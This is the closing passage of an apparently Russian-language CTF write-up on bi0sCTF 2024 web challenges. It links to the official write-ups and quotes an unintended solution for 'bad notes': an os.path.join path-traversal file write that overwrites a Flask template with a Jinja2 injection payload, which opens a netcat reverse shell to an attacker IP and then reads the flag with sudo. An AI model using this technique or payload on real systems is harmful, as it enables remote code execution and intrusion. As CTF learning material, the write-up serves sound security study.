 ![отдых](img/mem5.jpg)

# END
Сел я за эту статью спустя несколько месяцев и понял, что мне в падлу дальше расписывать, так что просто скину на оставшиеся таски авторские райтапы без адаптации.

  - [Image Gallery 1/2](https://blog.bi0s.in/2024/03/06/Web/ImageGallery1-bi0sCTF2024/)
  - [കുട്ടി Notes](https://blog.bi0s.in/2024/02/29/Web/KuttyNotes-bi0sCTF2024/)
  - [Variety Notes](https://blog.bi0s.in/2024/02/26/Web/VarietyNotes-bi0sCTF2024/)
  - [bad notes](https://github.com/teambi0s/bi0sCTF/tree/main/2024/Web/bad_notes)

Дополнительно unintended на `bad notes`:
```py
Arbitrary file write using "/tmp/test.txt" as filename because the code is using os.path.join (ex: os.path.join("/app/","/tmp/test.txt") => /tmp/test.txt)

Then, you don't have to reach the login page as a GET request, so that flask will not cache the /app/templates/login.html page. (use only POST request in burp repeater for example)

Overwrite /app/templates/login.html with a classic jinja2 rce payload :

{{ self.init.globals.builtins.import('os').popen('nc IP PORT -e /bin/bash').read() }}

Reach the /login page, flask will load the /app/templates/login.html but we have poison it before flask loads it :), get a shell and sudo /bin/cat /flag
```

Всем спасибо всем пака😘